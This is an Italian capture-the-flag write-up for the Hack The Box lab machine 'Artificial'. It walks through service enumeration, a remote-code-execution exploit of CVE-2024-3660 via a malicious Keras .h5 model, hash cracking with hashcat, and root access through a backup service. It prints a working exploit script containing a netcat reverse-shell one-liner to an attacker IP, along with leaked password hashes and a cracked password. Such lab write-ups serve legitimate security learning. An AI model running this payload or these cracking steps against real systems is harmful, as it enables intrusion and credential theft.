








Enumerazione
Eseguendo la base network service discovery con nmap, troviamo i servizi in ascolto sulle porte 22 (ssh) e 80 (http):
nmap 10.10.11.74Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-29 06:01 EDT
Nmap scan report for 10.10.11.74
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
Il servizio sulla porta 80 rivela il dominio usato: artificial.htb
nmap 10.10.11.74 -sC -sV -p22,80PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.13
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://artificial.htb/Aggiungiamo il dominio al file `/etc/hosts`:
10.10.11.74 artificial.htbL'enumerazione con ffuf non evidenzia virtual host:
ffuf -u http://$DOMAIN:$PORT -H "Host: FUZZ.$DOMAIN" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fs 154Ma troviamo alcune funzionalità di autenticazione:
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://$DOMAIN:$PORT/FUZZ -ic -recursion -recursion-depth 3 -v[Status: 200, Size: 857] | URL: /login
[Status: 200, Size: 952] | URL: /register
[Status: 302, Size: 189] | URL: /logout --> /
[Status: 302, Size: 199] | URL: /dashboard --> /loginDetection
Dato che ho appena finito il modulo SQLmap su HTB Academy, ho provato subito delle SQL injection sulla form di login, ma non sembra vulnerabile:
sqlmap -r req --batch
reqè il file contenente la request intercettata da Burp.
Questo non è un approccio intelligente, in un real world scenario sarebbe un attacco attivo prima di avere finito l'enumerazione. Potrebbe essere rilevato e potremmo essere stati presi.
Tuttavia, riusciamo a registrarci e fare login. Dalla dashboard possiamo scaricare un file `requirements.txt` e un `Dockerfile`, ma possiamo anche caricare un file `*.h5`.

Analisi del Dockerfile
Il Dockerfile rivela l'uso di TensorFlow 2.13.1:
FROM python:3.8-slim
WORKDIR /code
RUN apt-get update && apt-get install -y curl && \
curl -k -LO https://files.pythonhosted.org/packages/65/ad/4e090ca3b4de53404df9d1247c8a371346737862cfe539e7516fd23149a4/tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl && \
rm -rf /var/lib/apt/lists/*
RUN pip install ./tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl
ENTRYPOINT ["/bin/bash"]Il `requirements.txt` conferma:
tensorflow-cpu==2.13.1
Cercando online tensorflow-cpu==2.13.1 Exploit troviamo CVE-2024-3660, una vulnerabilità RCE in TensorFlow/Keras.
Exploit: CVE-2024-3660
La blog post di Oligo Security fornisce una buona spiegazione del problema e di come sfruttarlo.

Basato su quanto compreso, creiamo un exploit `.h5` con TensorFlow 2.13.1 e Python 3.8:
import tensorflow as tf
def exploit(x):
import os
os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.124 9001 >/tmp/f")
return x
model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")Dopo aver buildato ed eseguito l'immagine, copiamo il `.h5` sul nostro sistema:
sudo docker cp a67:/code/exploit.h5 .Carichiamo il file `.h5` e clicchiamo su View Predictions:

Otteniamo un reverse shell:
nc -lvnp 9001
connect to [10.10.14.124] from (UNKNOWN) [10.10.11.74] 34420
$ whoami
appExploitation
Il file `app.py` rivela credenziali in plaintext per un database SQLite chiamato `users.db`:
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///users.db'Cerchiamo il database corretto:
find / -type f -name users.db 2>/dev/null
/home/app/app/instance/users.db
/home/app/app/users.db
Interagendo con SQLite troviamo la struttura della tabella user:
CREATE TABLE user (
id INTEGER NOT NULL,
username VARCHAR(100) NOT NULL,
email VARCHAR(120) NOT NULL,
password VARCHAR(200) NOT NULL,
PRIMARY KEY (id)
);Recuperiamo gli utenti e le password:
SELECT username, password FROM user;gael|c99175974b6e192936d97224638a34f8
mark|0f3d8c76530022670f1c6029eed09ccb
admin|0e7517141fb53f21ee439b355b5a1d0aDecrittazione MD5
Le password sembrano hash MD5. Usando hashcat:
hashcat 0e7517141fb53f21ee439b355b5a1d0aIl match indica MD5. Decrittando con hashcat e una wordlist riusciamo a ottenere la password di admin.
Post Exploitation
Non possiamo eseguire comandi sudo. Non ci sono file con setuid o setgid. Tuttavia, notiamo che l'utente gael è nel gruppo sysadm:
uid=1000(gael) gid=1000(gael) groups=1000(gael),1007(sysadm)C'è un file di backup appartenente al gruppo sysadm:
find / -type f -group sysadm 2>/dev/null
/var/backups/backrest_backup.tar.gzScarichiamo ed estraiamo:
ssh gael@artificial.htb 'cat /var/backups/backrest_backup.tar.gz' > ./backrest_backup.tar.gz
tar xvf backrest_backup.tar.gzDai file estratti comprendiamo due cose chiave:
- C'è un servizio esposto su
localhost:8989— port forwarding SSH - Nei file di configurazione ci sono credenziali per un utente root-like
Il file .config/backrest/config.json contiene un hash bcrypt:
{
"auth": {
"disabled": false,
"users": [{
"name": "backrest_root",
"passwordBcrypt": "$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO"
}]
}
}L'hash è in base64, lo decodifichiamo e lo crackiamo con hashcat:
echo JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP | base64 -d
hashcat -m 3200 '$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO' rockyou.txt -w 4
L'hash viene crackato: !@#$%^
Facendo login, ci viene presentata una Web UI per un sistema di backup:

Possiamo programmare backup dei nostri file. Il root flag potrebbe essere incluso se il processo gira con privilegi root. Creiamo un repo per il backup e selezioniamo la cartella `/root/`:



Il repo viene creato con privilegi root in `/tmp/my_repo`. Possiamo dumpare il backup per ottenere il flag:
dump latest /root/root.txt
Per ottenere una shell SSH, potremmo dumpare le chiavi SSH con la stessa tecnica.